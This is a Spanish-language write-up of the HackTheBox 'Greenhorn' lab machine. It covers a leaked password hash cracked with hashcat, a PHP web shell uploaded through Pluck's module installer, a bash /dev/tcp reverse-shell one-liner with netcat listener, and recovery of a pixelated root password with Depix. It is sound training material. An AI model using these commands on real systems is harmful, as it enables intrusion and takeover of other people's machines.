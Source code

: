 ```yaml
---
title: "Máquina Greenhorn"
description: "Resolución de la máquina Greenhorn de HackTheBox"
tags: ["Git leak", "pluck", "Pixelated images"]
categories: ["HackTheBox", "Easy", "Linux"]
logo: "/assets/writeups/greenhorn/logo.webp"
---
```


Nos podremos encontrar un simple pluck de una persona y su servidor Gitea, en el cual dicha persona guardó la contraseña de administrador hasheada... pero la contraseña es débil. Obtendremos acceso administrativo al pluck y posteriormente una consola interactiva. Después de tomar el control de un usuario veremos que posee una imagen con la contraseña de root pixelada, y la vamos a despixelar.

## Reconocimiento

La máquina tiene 3 puertos abiertos:

```bash
# Nmap 7.95 scan initiated Sat Jul 20 15:01:04 2024 as: nmap -sS -Pn -vvv -p- --open -oN ports --min-rate 300 -n 10.129.89.74
Nmap scan report for 10.129.89.74
Host is up, received user-set (0.24s latency).
Scanned at 2024-07-20 15:01:04 -04 for 210s
Not shown: 63449 closed tcp ports (reset), 2083 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Jul 20 15:04:34 2024 -- 1 IP address (1 host up) scanned in 210.43 seconds
```

El puerto 80 nos manda a `greenhorn.htb`, vamos a agregarlo a nuestro archivo de hosts:

```bash
10.10.11.25 greenhorn.htb
```
{: file="/etc/hosts" }

Esta web principal tiene un Pluck sin mucho más, pero el puerto 3000 es un Gitea con un repositorio:

![Gitea](/assets/writeups/greenhorn/1.png)

Veamos que hay por acá.

## Intrusión

### www-data - greenhorn

Mirando los archivos que hay en el repositorio de arriba, podemos ver que se trata del Pluck que vimos antes y al mismo tiempo evidenciamos que alguien no es muy inteligente:

![Uh oh](/assets/writeups/greenhorn/2.png)

Este hash es la contraseña del panel administrativo, podrás notarlo si te pones a leer el código. Es crackeable también

```bash
❯ hashcat -m 1700 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt  --show
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163:iloveyou1
```

y con ella podemos acceder como administradores al Pluck

![Pluck admin](/assets/writeups/greenhorn/3.png)

Buscando por vulnerabilidades ahora, podemos encontrar que Pluck tiene una función para subir módulos, y esto es aprovechable para subir archivos php. Podemos simplemente subir un zip que contiene un archivo PHP malicioso en la parte de instalar módulos y:

```bash
❯ curl -v "http://greenhorn.htb/data/modules/uwu/uwu.php?uwu=id"
* Host greenhorn.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.25
*   Trying 10.10.11.25:80...
* Connected to greenhorn.htb () port 80
> GET /data/modules/uwu/uwu.php?uwu=id HTTP/1.1
> Host: greenhorn.htb
> User-Agent: curl/8.10.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Sat, 07 Dec 2024 00:55:56 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
* Connection #0 to host greenhorn.htb left intact
```

Ahora podemos simplemente enviarnos una consola interactiva utilizando nuestro oneliner favorito `bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'`

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.25 44124
bash: cannot set terminal process group (1116): Inappropriate ioctl for device
bash: no job control in this shell
www-data@greenhorn:~/html/pluck/data/modules/uwu$ script /dev/null -c bash # Iniciar un nuevo proceso
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@greenhorn:~/html/pluck/data/modules/uwu$ ^Z # CTRL + Z
[1]  + 28398 suspended  nc -lvnp 443

❯ stty raw -echo; fg # Pasar controles de la terminal al proceso
[1]  + 28398 continued  nc -lvnp 443
                                    reset xterm # Reiniciar terminal
www-data@greenhorn:~/html/pluck/data/modules/uwu$ export TERM=xterm-256color # Establecer tipo de terminal
www-data@greenhorn:~/html/pluck/data/modules/uwu$ stty rows 34 columns 149 # Establecer filas y columnas
www-data@greenhorn:~/html/pluck/data/modules/uwu$ source /etc/skel/.bashrc # ¡Colores!
```

### junior - greenhorn

La misma contraseña que encontramos en el principio sirve para este usuario

```bash
www-data@greenhorn:/$ su junior
Password: 
junior@greenhorn:/$
```

En su directorio personal encontraremos la primera flag.

```bash
junior@greenhorn:~$ ls -la
total 76
drwxr-xr-x 3 junior junior  4096 Dec  6 17:19 .
drwxr-xr-x 4 root   root    4096 Jun 20 06:36 ..
lrwxrwxrwx 1 junior junior     9 Jun 11 14:38 .bash_history -> /dev/null
drwx------ 2 junior junior  4096 Jun 20 06:36 .cache
-rw-r----- 1 root   junior 61367 Jun 11 14:39 openvas.pdf
-rw-r----- 1 root   junior    33 Dec  6 14:47 user.txt
junior@greenhorn:~$ cat user.txt
775c61eab25b33a3ee19f549a2******
```

## Escalada de privilegios

Como habrás visto arriba, hay un documento PDF que contiene lo siguiente:

![PDF](/assets/writeups/greenhorn/4.png)

Una contraseña pixelada que parece ser la de root... aunque esto parezca seguro no lo es.

Haciendo uso de la matemática puede que llegemos a obtener el texto pixelado de la imagen, un buen ejemplo de implementación puede ser [esta herramienta](https://github.com/JonasSchatz/DepixHMM) que se basa en probabilidades y una máquina de estados finitos para "adivinar" los carácteres detrás del texto pixelado. Sin embargo esta misma no nos será de utilidad.

La que si nos sirve y encima, está diseñada especificamente para contraseñas es [esta](https://github.com/spipm/Depix), clonándola y viendo como usarlo podremos ver que necesitaremos una imagen de referencia del lugar donde fue escrita y pixelada la imagen. Enfocando bien el PDF podremos notar una secuencia de pixeles dentro de los datos pixelados:

![Orange](/assets/writeups/greenhorn/5.png)

El Notepad de Windows es el único editor que tiene la peculiaridad de bordear los carácteres con colores (a niveles casi que microscópicos); tomando una screenshot de un notepad y haciendo zoom podrás notarlo. Incluso la propia herramienta tiene un ejemplo en el README de esto... y los bloques de píxeles generados son demasiado similares.

Haciendo uso de la imagen `debruinseq_notepad_Windows10_close.png` para la secuencia [De Bruijn](https://en.wikipedia.org/wiki/De_Bruijn_sequence) que usará la herramienta y extrayendo la imagen pixelada del PDF, la susodicha nos dirá esto:

```bash
❯ python depix.py -p test.png -s images/searchimages/debruinseq_notepad_Windows10_close.png -o pixels2.png
2024-12-06 21:41:24,146 - Loading pixelated image from test.png
2024-12-06 21:41:24,177 - Loading search image from images/searchimages/debruinseq_notepad_Windows10_close.png
2024-12-06 21:41:24,401 - Finding color rectangles from pixelated space
2024-12-06 21:41:24,406 - Found 1815 same color rectangles
2024-12-06 21:41:24,407 - 1373 rectangles left after moot filter
2024-12-06 21:41:24,407 - Found 10 different rectangle sizes
2024-12-06 21:41:24,407 - Finding matches in search image
2024-12-06 21:41:24,407 - Scanning 14 blocks with size (2, 2)
2024-12-06 21:41:24,409 - Scanning in searchImage: 0/1180
2024-12-06 21:41:24,635 - Scanning in searchImage: 118/1180
2024-12-06 21:41:24,858 - Scanning in searchImage: 236/1180
2024-12-06 21:41:25,086 - Scanning in searchImage: 354/1180
2024-12-06 21:41:25,316 - Scanning in searchImage: 472/1180
2024-12-06 21:41:25,547 - Scanning in searchImage: 590/1180
2024-12-06 21:41:25,778 - Scanning in searchImage: 708/1180
2024-12-06 21:41:26,005 - Scanning in searchImage: 826/1180
2024-12-06 21:41:26,236 - Scanning in searchImage: 944/1180
2024-12-06 21:41:26,466 - Scanning in searchImage: 1062/1180
... [snip]
2024-12-06 21:43:39,059 - Splitting single matches and multiple matches
2024-12-06 21:43:39,673 - [218 straight matches | 0 multiple matches]
2024-12-06 21:43:39,673 - Trying geometrical matches on single-match squares
2024-12-06 21:43:39,673 - [218 straight matches | 0 multiple matches]
2024-12-06 21:43:39,673 - Trying another pass on geometrical matches
2024-12-06 21:43:39,673 - [218 straight matches | 0 multiple matches]
2024-12-06 21:43:39,673 - Writing single match results to output
2024-12-06 21:43:39,675 - Writing average results for multiple matches to output
2024-12-06 21:43:39,676 - Saving output image to: pixels2.png
```

La imagen resultante `pixels2.png` tiene esto:

![Depixelated](/assets/writeups/greenhorn/6.png)

Se puede llegar a leer `sidefromsidetheothersidesidefromsidetheotherside`, y si intentamos usar este texto como contraseña de root:

```bash
junior@greenhorn:~$ su
Password: 
root@greenhorn:/home/junior#
```

Con esto ya podremos tomar la última flag.

```bash
root@greenhorn:/home/junior# cd ~
root@greenhorn:~# ls -la 
total 44
drwx------  5 root root 4096 Dec  6 14:47 .
drwxr-xr-x 20 root root 4096 Jun 20 07:06 ..
lrwxrwxrwx  1 root root    9 Jun 11 14:42 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Jun 20 06:36 .cache
-rwxr-xr-x  1 root root  250 Jun 19 17:06 cleanup.sh
drwxr-xr-x  3 root root 4096 Jun 20 06:36 .local
lrwxrwxrwx  1 root root    9 Jun 20 05:44 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rwxr-xr-x  1 root root  962 Jul 18 13:01 restart.sh
-rw-r-----  1 root root   33 Dec  6 14:47 root.txt
-rw-r--r--  1 root root   66 Jul 18 12:59 .selected_editor
drwx------  2 root root 4096 Jun 20 06:36 .ssh
root@greenhorn:~# cat root.txt
bf6777664160d9443db44b8ed2******
```

## Extra

Esta máquina, a pesar de tener una escalada divertida, es muuy CTF y nada realista. Ningún sysadmin, dev, ingenierio, devops y demás dejaría la contraseña del sistema pixelada dentro de un documento que será enviado a algún empleado o ayudante. La razón por la que le hice writeup es principalmente por la escalada jaja.